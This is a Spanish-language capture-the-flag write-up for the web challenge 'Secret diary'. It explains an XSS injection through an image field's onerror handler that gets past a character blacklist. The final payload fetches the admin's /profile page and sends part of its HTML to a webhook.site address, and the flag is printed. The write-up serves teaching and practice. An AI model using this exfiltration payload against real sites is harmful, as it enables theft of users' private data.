



# Secret diary #

- **Tipo:** Web
- **Autor del Writeup:** [focab0r](https://github.com/focab0r)
- **Flag:** `HackOn{Arty_Attacks_Again_31A724F397B4}`

### Descripcion ###


## WriteUp ##

El reto consta de dos elementos: una pagina web, con un login y un formulario, y un bot que visita el formulario. Claramente, se trata del tipico reto de XSS. Tras analizar el codigo fuente, se ve que la flag se encuentra en el perfil del administrador, concretamente en la clase `card-title`. Por lo tanto, se abren dos opciones:
1. Robar la cookie del admin, y loguearse en su cuenta.
2. Exfiltrar el contenido de la pagina HTML, junto con la flag.

Como tras probar en la consola `document.cookie` no se obtiene ningun resultado, ya que las cookies estan protegidas mediante la flag `HttpOnly`, se descarta la primera opcion y nos quedamos con la exfiltracion del codigo HTML.

### Punto vulnerable ###

El punto vulnerable es facilmente reconocible: es el campo `img_type`, visible si se intercepta la peticion con Burpsuite. En él, teoricamente se inserta el nombre de una etiqueta de la imagen. Pero si se modifica, se puede insertar codigo JS utilizando `onerror`.



`onerror` es una etiqueta que se puede aplicar a las imagenes, y que permite ejecutar codigo JS en caso de que la imagen no se cargue correctamente. Por ejemplo, la siguiente sintaxis cargaria una imagen:
```

```
Pero si el dominio no existe, como en el siguiente ejemplo, se imprimiria un panel de alerta:
```

```
¿Y porque ese parametro y no otro? Como estan baneados los simbolos `<, >, ", ', &`, la unica forma de ejecutar codigo JS es utilizar ya una etiqueta previamente definida, de tal forma que nos podamos saltar toda la seguridad.

### Explotacion ###

Payload final:
```
onerror=document.addEventListener(`DOMContentLoaded`,fetch(`/profile`).then(function(r){return(r.text())}).then(function(h){window.location.href=`https://webhook.site/39d82d39-67c9-4d28-97c1-d5fa804da347/?q`=%2bencodeURIComponent(h.substring(2800,3600))}))
```
Explicacion:

El siguiente payload es capaz de bypassear la blacklist, y de exfiltrar el codigo HTML del admin. 

1. Lo primero que hace es esperar a que el documento este totalmente cargado mediante la funcion `document.addEventListener('DomContentLoaded', CODE)`. Esto ejecuta el codigo CODE una vez que termine de cargar. NOTA: Las comillas no se podian utilizar, en su lugar, se utilizaron otro tipo de comillas que admite tambien JS y no estaban baneadas. En el codigo original aparecen, aunque en los siguientes codigos no se han incluido por comodidad. 
2. Despues, realiza una peticion a la ruta `/profile`, donde se encuentra la flag del admin. La peticion funciona, ya que el admin esta logueado en su cuenta, y por lo tanto manda sus cookies. Tras una transformacion a texto, se guarda todo el contenido del HTML en la variable `h`.
3. Finalmente, `h` se envia a un servidor controlado por nosotros mediante una peticion GET. Como no es posible enviar todo el HTML por temas de espacio en las URLs, se envia unicamente el codigo de los caracteres 2800 al 3600 (es decir, los que contienen la flag).
4. Cuando llega la peticion al servidor, contiene en el parametro la flag.



